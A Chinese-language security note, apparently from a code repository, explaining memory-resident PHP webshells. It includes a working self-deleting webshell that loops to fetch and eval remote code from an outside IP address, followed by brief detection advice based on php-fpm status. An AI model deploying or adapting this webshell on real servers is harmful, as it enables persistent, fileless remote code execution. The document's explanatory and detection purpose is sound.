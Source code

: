 # 内存驻留webshell

## 一、攻击原理

php webshell文件执行后删除自身。此webshell在执行后会自身删除，驻留内存之中，无文件残留。其原理主要利用以下方法：

    ignore_user_abort(true); // 后台运行

这个函数的作用是指示服务器端在远程客户端关闭连接后是否继续执行下面的脚本。如设置为True，则表示如果用户停止脚本运行，仍然不影响脚本的运行

    set_time_limit(0); // 取消脚本运行时间的超时上限

括号里边的数字是执行时间，如果为零说明永久执行直到程序结束，如果为大于零的数字，则不管程序是否执行完成，到了设定的秒数，程序结束。

脚本也有可能被内置的脚本计时器中断。默认的超时限制为30秒。
这个值可以通过设置 php.ini 的 max_execution_time 或 Apache .conf 设置中对应的“php_value max_execution_time”参数或者 set_time_limit() 函数来更改。

php删除自身时借助的函数为

    unlink($_SERVER['SCRIPT_FILENAME']);

unlink函数运行条件较为苛刻，该脚本要具备可执行权限、可修改文件权限时方能执行。

简单的webshell脚本：


    <?php
        chmod($_SERVER['SCRIPT_FILENAME'], 0777);
        unlink($_SERVER['SCRIPT_FILENAME']);
        ignore_user_abort(true);
        set_time_limit(0);
        echo "success";
        $remote_file = 'http://10.211.55.2/111/test.txt';
        while($code = file_get_contents($remote_file)){
        @eval($code);
        echo "xunhuan";
        sleep(5);
        };
    ?>

test.txt中的代码如下：

    file_put_contents('printTime.txt','jweny '.time());

webshell执行后，删除自身，并在该目录生成 printTime.txt，每五秒一次写入一次时间戳。

## 二、检测方案

通过获取php-fpm status：

1. 检查所有php进程处理请求的持续时间
2. 检测执行文件是否在文件系统真实存在